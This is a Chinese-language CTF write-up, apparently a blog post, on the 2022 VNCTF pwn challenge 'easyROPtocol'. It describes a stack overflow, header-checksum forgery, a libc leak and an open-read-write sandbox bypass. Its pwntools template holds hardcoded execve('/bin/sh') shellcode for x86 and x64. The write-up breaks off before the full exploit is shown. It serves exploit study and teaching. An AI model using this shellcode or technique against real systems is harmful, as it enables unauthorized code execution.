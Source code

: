 ```yaml
---
title: 2022 VNCTF pwn 复现
date: 2022-06-20 16:54:59 +0800
categories:
  - ctf比赛
tags:
  - pwn
  - ctf
permalink: /posts/id=26/
pin: false
published:
---
```


## easyROPtocol

![image-20220620162556839](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220620162556839.png)

漏洞点在submit函数最多可进行4次提交(memcopy)，导致s上存在栈溢出

![image-20220620164712594](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220620164712594.png)

题目的难点在于输入的伪造

存在一个check_head以及chunk_sum，必须要在payload里伪造所需信息。第一次利用溢出泄露libc偏移，第二次利用溢出执行rorw实现沙箱绕过。由于`submit`函数返回时 rdx 寄存器的值为 6，可不用布置rdx的值。

![image-20220620164943689](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220620164943689.png)

![image-20220620165030100](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220620165030100.png)

![image-20220620165208378](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220620165208378.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
from Crypto.Util.number import bytes_to_long
# context.log_level='debug'

p = process("./pwn")
elf = ELF("./pwn")
libc = elf.libc

def dbg():
    gdb.attach(p)
    pause()

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------
```
